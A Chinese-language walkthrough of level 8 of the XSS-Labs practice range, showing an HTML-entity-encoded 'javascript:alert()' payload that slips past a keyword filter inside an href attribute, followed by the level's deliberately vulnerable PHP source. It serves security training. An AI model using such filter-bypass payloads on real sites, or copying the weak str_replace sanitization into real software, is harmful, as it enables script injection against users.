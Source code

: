 ### Unicode 编码绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第八关**

这一关是直接将我们的值插入到 `href` 属性内，试过了前几种方法都不管用

![](https://pic1.imgdb.cn/item/68138b8b58cb8da5c8d639d6.png)

但是我们能利用 `href` 的隐藏属性自动 Unicode 解码

```html
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

点击后弹窗

![](https://pic1.imgdb.cn/item/68138bea58cb8da5c8d63a22.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level9.php?keyword=not bad!"; 
}
</script>
<title>欢迎来到level8</title>
</head>
<body>
<h1 align=center>欢迎来到level8</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);  // 全都转小写了，大小写混淆绕不了
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
?>
<center><img src=level8.jpg></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
?>
</body>
</html>
```

